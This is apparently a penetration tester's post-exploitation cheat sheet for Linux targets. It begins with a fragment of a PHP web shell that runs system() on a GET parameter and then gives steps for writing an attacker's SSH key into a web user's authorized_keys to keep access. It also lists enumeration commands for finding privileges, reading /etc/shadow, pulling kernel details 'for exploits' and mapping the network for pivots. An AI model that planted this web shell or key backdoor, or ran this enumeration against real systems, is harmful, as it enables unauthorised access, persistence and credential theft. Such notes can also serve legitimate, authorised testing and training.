   if($_GET['cmd']) {

    system($_GET['cmd']);

    }

  ?>

  </pre>

  </BODY></HTML>

===========
ssh key-gen
===========
On target
mkdir /var/www/.ssh 	(or whatever home directory)
echo "RSA KEY" > /var/www/.ssh/authorized_keys   ( might have to change the home directory )
cat /var/www/.ssh/authorized_keys

On opstation
ssh-keygen -t rsa -b 4096
cat .ssh/id_rua.pub
ssh www-data@ip  ( or whatever the webuser is)

++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++



POST 
Linux Commands basic 
date & time	= Are we on the right box ? knowing date and time for possible persistence 
Whoami	 = double check who we are logged in as
Id		 = permissions group ( do we have root permissions)
Groups 	= see what groups we are apart of (are we in the sudoers )
sudo -l		= do we have any binaries that execute with higher privs  
cat /etc/passwd	 ( user information)
cat /etc/shadow 	( user information) ( need privileged access)
W  = who is logged in, terminal and what they are doing ( tty  are direct connections to the pc.. So pts are ssh or telnet connections (possible info about other pcs)
Last = information about users that logged in ( user habits ) ( might need to avoid times)
Uptime = how long has the machine been up ( would this make for a good pivot)
Hostname = name of machine ( pay attention)

uname -a 	= kernel information architecture ( for exploits )
cat /etc/*rel* 


Networking Information

Ifconfig -a = network information ( verify your on the right target so you donâ€™t go to jail pimp) ( dbo with the size 15 shoe)
cat /etc/hosts = translates hostnames or domain names to ip addresses ( could see a name to another box, might point a target of interest Windows Server )
cat /etc/resolv.conf = configure dns name servers 
netstat -rn
netstat -antup  ( backdoors and rootkits do use magic packets and udp) ( rsyslog 514 port) programs on different ports we could exploit
arp -an 	= sends data will verify arp cache ( only lasts for a few minutes) passive network enumeration .. Maybe we could find out information about other machines on the network without scanning
